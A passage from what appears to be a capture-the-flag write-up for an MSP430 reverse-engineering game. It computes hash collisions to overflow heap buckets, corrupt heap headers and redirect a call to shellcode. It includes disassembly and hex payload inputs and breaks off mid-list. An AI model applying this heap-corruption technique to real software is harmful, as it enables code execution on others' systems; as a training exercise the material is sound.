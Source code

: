 ```
If s="3c505c51b500" and our username is u="3c505c51b5"+x (the target
string followed by the single unknown character x), and h is the hash
function, then h(u)=h(s)+31*x=h(s)-x mod 8.  So it suffices to choose x =
h(s) mod 8.

In our case, h(s) = 4, so a username of 3c505c51b504, say, should end
up in bucket 0.  We can test this with the input

```6e6577203c505c51b5042030```

and observe that this user does indeed get placed into bucket 0.

*Step 3: Overfilling bucket 1*

Likewise, the sixth username for bucket 1 will be

```
{value to use in overwriting}:16
{address to overwrite}:16
b5:8
{value to force username to land in bucket 1}:8
```

So let's take stock of our input length so far:

* We have 5 8-byte user entries to fill bucket 0

* We have 5 8-byte user entries to fill bucket 1

* We have a 12-byte user entry to mangle bucket 1's headers

* We have a 12-byte user entry to mangle bucket 2's headers

So we're at roughly 34 bytes.  Our input gets placed into memory at
address 3dec, so if we can cause execution to go to address, say, 3e30
and we can place shellcode with an appropriately sized nop sled at the
beginning in our input, we should have success.  So what to overwrite?

So what value to overwrite to get control?

Recall from Algiers we're looking to write an even value at an even
address with the two words following it also even.  One reasonable
target for overwriting is the argument to a call.  Looking through the
`run` function, we see this specimen:

```
4c98:  3f40 124b      mov	#0x4b12, r15 ;; "User already has an account"
4c9c:  b012 504d      call	#0x4d50 <puts>
4ca0:  1c3c           jmp	#0x4cda <run+0x174>
4ca2:  0a12           push	r10
4ca4:  0912           push	r9
```

Note that the target of the call to `puts` is followed by two even
words.  Also, to trigger this call, we only have to submit a user that
already has an account, so we repeat one of our earlier user input
strings.

```
6e6577200820303b
6e6577201020303b
6e6577201820303b
6e6577202820303b
6e6577203020303b